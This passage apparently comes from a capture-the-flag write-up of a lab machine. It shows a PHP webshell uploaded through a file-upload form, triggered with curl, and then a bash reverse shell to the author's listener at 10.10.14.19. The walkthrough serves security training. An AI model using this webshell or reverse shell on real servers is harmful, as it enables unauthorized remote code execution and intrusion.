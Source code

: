 The more interesting link is the Upload File link, which leads to a
form:

![](/img/image-20210721205056448.png)

I first tried to upload a plain text file, `test.txt`:

![](/img/image-20210726115027912.png)

It changes the filename, but not the extension. However, the View link
is broken, as it returns 404. That's really odd.

### Webshell Execution

Because the note said that PHP files were being executed, I'll upload a
simple PHP webshell:



    <?php system($_REQUEST["cmd"]); ?>



It shows up with a long hex filename, but with the same extension:

![](/img/image-20210721210609334.png)

With `.php`, the View link does work, and if i add `?cmd=id` to the end,
it show I have execution:

![](/img/image-20210721210648992.png)

I'll look at what's going on with the webserver in [Beyond
Root](#beyond-root).

I like to use `curl` to trigger web shells and that works too:



    oxdf@parrot$ curl --data-urlencode 'cmd=id' -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

To get a shell from that, I'll start `nc` listening and replace `id`
with a reverse shell payload:



    oxdf@parrot$ curl --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'" -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php



`curl` just hangs, but at `nc` there's a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.19] from (UNKNOWN) [10.10.10.230] 59216
    bash: cannot set terminal process group (1112): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@thenotebook:~.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
